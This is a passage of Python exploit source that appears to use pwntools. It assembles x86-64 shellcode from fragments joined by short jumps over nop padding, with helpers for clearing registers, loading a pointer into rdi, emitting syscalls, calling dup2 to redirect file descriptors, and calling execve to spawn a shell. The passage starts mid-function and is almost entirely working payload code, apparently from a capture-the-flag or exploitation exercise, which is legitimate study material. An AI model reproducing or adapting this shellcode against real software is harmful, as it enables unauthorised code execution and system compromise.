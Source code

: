 ```py

    return sc

def null_rsi_rdx():
    pad = asm("nop") * 8
    jmp_8 = b"\xeb\x08"

    sc = asm("xor rsi, rsi")
    sc += asm("xor rdx, rdx")
    sc += jmp_8
    sc += pad

    return sc


def set_rdi_ptr():
    pad = asm("nop") * 8
    jmp_8 = b"\xeb\x08"

    sc = asm("lea r8, [rsp + 0x10]")
    sc += asm("nop")
    sc += jmp_8
    sc += pad
    sc += asm("mov rdi, qword ptr [r8]")
    sc += asm("nop") * 3
    sc += jmp_8
    sc += pad

    return sc


def syscall():
    pad = asm("nop") * 8
    jmp_ad = asm("nop") * 4
    jmp_8 = b"\xeb\x08"

    sc = asm("syscall")
    sc += jmp_ad
    sc += jmp_8
    sc += pad

    return sc


def dup2():

    sc = set_reg('rax', 0x21)
    sc += set_reg('rdi', 0x2)
    sc += set_reg('rsi', 0x0)
    sc += syscall()
    return sc

def execve():

    sc = set_reg('rax', 0x3b)
    sc += null_rsi_rdx()
    sc += set_rdi_ptr()
    sc += syscall()
    return sc


# def add_rdi():
#     pad = asm("nop") * 8
```